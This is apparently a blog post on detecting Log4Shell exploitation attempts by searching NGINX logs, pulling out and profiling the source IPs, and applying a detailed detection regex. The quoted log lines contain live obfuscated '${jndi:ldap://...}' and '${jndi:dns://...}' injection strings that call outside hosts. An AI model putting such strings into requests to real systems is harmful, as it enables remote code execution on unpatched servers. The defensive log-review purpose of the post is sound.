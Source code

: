 During this year's Advent the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability was discovered. It's a vulnerability with high impact. This is because of three factors. It allows an attacker to run arbitrary code (downloaded from LDAP servers) on the victim's system. Log4j is a logging library used by lots of programs. It's easy to exploit. The way to fix this vulnerability is upgrade the log4j library to the latest version.

To find out if someone is trying to exploit this vulnerability in your system you can review your logs. For example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:'
Dec 12 05:34:35 cloud waf[638]: 165.22.201.45 - - [12/Dec/2021:05:34:35 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world80.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 00:51:28 cloud waf[638]: 157.245.108.40 - - [13/Dec/2021:00:51:28 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world443.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 05:01:39 cloud waf[638]: 45.83.64.19 - - [13/Dec/2021:05:01:39 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 444 0 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

These are logs from NGINX web server. There is no Java running on this system but the Internet is being scanned en masse. The web server is returning 444 because it's configured like this:

```
# Just close connection if the server is accessed via IP address or via the
# wrong hostname. _ is just an invalid value which will never trigger on a real
# hostname.
server {
    listen 443 default_server;
    server_name _;
    return 444;
}
```

If you are curious who is making these requests you can pull out the IP addresses from the logs, for example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -wlne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq
157.245.108.40
165.22.201.45
45.83.64.19
```

To discover information about the IP addresses you might find [checkip](https://github.com/jreisinger/checkip) useful:

```sh
$ for ip in $(sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -wlne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
---[157.245.108.40]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Bengaluru, country: India (IN)
ping            0% packet loss, sent 5, recv 5, avg round-trip 141 ms
shodan.io       OS: n/a, 1 open port: tcp/4646
urlscan.io      0 related URLs
virustotal.com  network: 157.245.0.0/16, SAN: knrao.in, cpanel.knrao.in, cpcalendars.knrao.in, cpcontacts.knrao.in, mail.knrao.in, webdisk.knrao.in, webmail.knrao.in, www.knrao.in
Malicious       38% 🤏
---[165.22.201.45]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Amsterdam, country: Netherlands (NL)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: Ubuntu, 4 open ports: tcp/22 (OpenSSH, 8.2p1 Ubuntu-4ubuntu0.2), tcp/80 (Apache httpd, 2.4.51), tcp/443 (Apache httpd, 2.4.7), tcp/465 (Exim smtpd, 4.94.2)
urlscan.io      0 related URLs
virustotal.com  network: 165.22.0.0/16, SAN: *.adleon2jnbvsh.com, adleon2jnbvsh.com
Malicious       38% 🤏
---[45.83.64.49]---
abuseipdb.com   domain: n/a, usage type: n/a
iptoasn.com     AS description: ALPHASTRIKE-RESEARCH
maxmind.com     city: n/a, country: Germany (DE)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: n/a, 1 open port: tcp/179
urlscan.io      0 related URLs
virustotal.com  network: 45.83.64.0/22, SAN: n/a
Malicious       50% 🚫
```

More sophisticated exploits and evasion techniques are being [discovered](https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/). So instead of the simple `\$\{jndi:` regex you can use [this](https://github.com/back2root/log4shell-rex) monster. It's handy to store it in an environment variable:

```sh
L4S_REGEX='(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))'
```

Now, the complete command looks like this:

```sh
for ip in $(sudo journalctl --since 2021-12-09 | \
perl -wlne "/$L4S_REGEX/ && print" | \
perl -wlne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
```
